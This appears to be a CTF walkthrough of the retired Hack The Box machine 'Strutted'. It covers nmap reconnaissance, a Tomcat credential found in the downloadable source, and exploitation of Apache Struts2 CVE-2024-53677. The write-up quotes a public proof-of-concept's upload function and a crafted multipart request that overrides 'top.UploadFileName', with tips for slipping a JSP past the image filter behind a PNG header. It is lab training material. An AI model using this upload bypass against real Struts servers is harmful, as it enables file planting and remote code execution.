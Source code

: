 This is a retired Medium machine. Doing for practice!
# Init
Starting with `nmap`:
```
┌──(truelyyours㉿kali)-[~/htb/machines/strutted]
└─$ sudo nmap -sC -sV -oA nmap/strutted 10.10.11.59
Starting Nmap 7.95 ( https://nmap.org ) at 2025-09-02 04:18 EDT
Nmap scan report for 10.10.11.59
Host is up (0.13s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   256 3e:ea:45:4b:c5:d1:6d:6f:e2:d4:d1:3b:0a:3d:a9:4f (ECDSA)
|_  256 64:cc:75:de:4a:e6:a5:b4:73:eb:3f:1b:cf:b4:e3:94 (ED25519)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://strutted.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 11.62 seconds
```

So, `ssh` and `http` are running.  The website is some image upload and sharing site. You can download source code too!
![[Pasted image 20250902042657.png]]

Although, after uploading the image, you cannot "Copy Shareable Link"! The README in source code does instruct that you can access the image via `http:localhost:8080/s/{id}` where `id` is some unique identifier

We do get a id and password:
```
┌──(truelyyours㉿kali)-[~/htb/machines/strutted/source_code]
└─$ cat tomcat-users.xml
<?xml version='1.0' encoding='utf-8'?>

<tomcat-users>
    <role rolename="manager-gui"/>
    <role rolename="admin-gui"/>
    <user username="admin" password="skqKY6360z!Y" roles="manager-gui,admin-gui"/>
</tomcat-users>
```

Looking at the source code, the MVC is (Apache) `Struts2` with version `6.3.0.1`.

As we can upload file, googling CVE for this version, there is [CVE-2024-53677](https://www.cve.org/CVERecord?id=CVE-2024-53677) which allows arbitrary path traversal and RCE. [POC](https://github.com/EQSTLab/CVE-2024-53677.git)

I tried the exploit in the above posts, but it does not work directly. The working of the exploit is also not straight forward. So, I look deeper into what causes the vulnerability and how can we craft our exploit. This post explains quite well: https://help.tanium.com/bundle/CVE-2024-31497/page/VERT/CVE-2024-53677/Understanding_Apache_Struts.htm.

We can have a look at the EQSTLab's exploit script. 
```python
def exploit(self) -> None:
        files = {
            'Upload': ("exploit_file.jsp", self.file_content, 'text/plain'),
            'top.UploadFileName': (None, self.path),
        }

        try:
            response = requests.post(self.url, files=files)
            print("Status Code:", response.status_code)
            print("Response Text:", response.text)
            if response.status_code == 200:
                print("File uploaded successfully.")
            else:
                print("Failed to upload file.")
        except requests.exceptions.RequestException as e:
            print(f"Request failed: {e}")
```

It upload "two" files within same request but with different "name".

So, Struts has a series of Interceptor classes that run by default, including one called the `FileUploadInterceptor`. Struts has this concept of the object graph navigation library (OGNL), which has a stack. If there are two objects on the stack, and it allows referencing some property, say `name`, and that will work down the stack looking for the first object that has that property and return that.
If a POST request triggers the `FileUploadInterceptor`, you can have other POST parameters that reference parts of that object by the OGNL stack. In practice, that looks like:
```
POST /upload.action HTTP/1.1
Host: strutted.htb
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: multipart/form-data; boundary=---------------------------257100227792270914038585987
Content-Length: 518
Origin: http://strutted.htb
DNT: 1
Connection: keep-alive
Referer: http://strutted.htb/upload.action
Cookie: JSESSIONID=B49FBC232ACDD342D2ABC2C6B7C0342D
Upgrade-Insecure-Requests: 1
Priority: u=0, i

-----------------------------257100227792270914038585987
Content-Disposition: form-data; name="upload"; filename="Screenshot_20250902_042406.png"
Content-Type: image/png

PNG

IHDR-uijhlajkdhfaljfadf af;fda
-----------------------------257100227792270914038585987
Content-Disposition: form-data; name="top.UploadFileName"

different.txt

helloworld
-----------------------------257100227792270914038585987--
```

The first form data parameter will be processed into an object by the `FileUploadInterceptor`. Then the second parameter is processed, setting the `UploadFileName` (Which an internal variable that Interceptor uses) for the top of the stack (the first parameter) to this new value. This trick allows for bypassing other rules put in place about where a file can be written, including directory traversals. This means the "filename" i.e. where file is written can be modifier. So we can modify it in such a way that it can be accessed by us via browser!
NOTE: One important thing to consider which I found after reading about custom payload, the first file upload needs to have `name=Upload` with an Upper case `U`. Otherwise this exploit does not work.
![[Pasted image 20250905175120.png]]

This portal only allows image upload. Upload any other file format fails. However, any image file with valid magic header can be uploaded even though the rest of the file is corrupted. So we can sort of embed the script inside the "PNG" file keeping the header same as PNG and providing path i.e. writing the file to a path which we can access/read.

However, we cannot access the file directly at `/uploads/[date]/[filename]`. As per the code, it actually provides us with a sharable link at endpoint `/s`.  But that link simply tries to render the file as an image (PNG in our case). We want the browser to process the file.
![[Pasted image 20250905181824.png]]

As this is java application, we store our file as `temp.jsp`. 


